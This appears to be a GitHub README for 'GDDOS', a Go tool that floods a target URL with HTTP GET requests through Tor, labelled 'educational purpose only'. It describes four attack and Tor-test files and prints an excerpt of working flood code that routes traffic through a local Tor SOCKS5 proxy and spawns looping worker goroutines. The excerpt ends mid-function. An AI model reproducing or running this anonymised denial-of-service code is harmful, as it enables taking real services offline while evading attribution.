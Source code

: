 # GDDOS
Denial Of Service attack in GO using TOR 

* EDUCATIONAL PURPOSE ONLY


 * CODE DESCRIPTION
  
     * ddos.go  
     
          --Its  the  modification Konstantin8105/DDoS attack  using tor
          
     * simpleddos.go  
     
          --Minimal code of line ddos attack not banging into a server at once
          
     * simpletorddos.go 
     
          --Minimal code using tor connection
          
          
     * testtor.go 
     
          --Simple script to check the tor connectivity
          
          *********************************************************************************************

* ddos.go  explanation 
  #func (d *DDoS) Run() {
	#torcon, _ := url.Parse("socks5://127.0.0.1:9050")
	#pather, _ := proxy.FromURL(torcon, proxy.Direct)
	#nwpath := &http.Transport{Dial: pather.Dial}
	#client := &http.Client{Transport: nwpath}

	#for i := 0; i < d.amountWorkers; i++ {
		#go func() {
			#for {
				select {
				case <-(*d.stop):
					return
				default:
					// sent http GET requests
					resp, err := client.Get(d.url)
					atomic.AddInt64(&d.amountRequests, 1)
					if err == nil {
						atomic.AddInt64(&d.successRequest, 1)
						_, _ = io.Copy(ioutil.Discard, resp.Body)
						_ = resp.Body.Close()
						fmt.Println(d)
					}



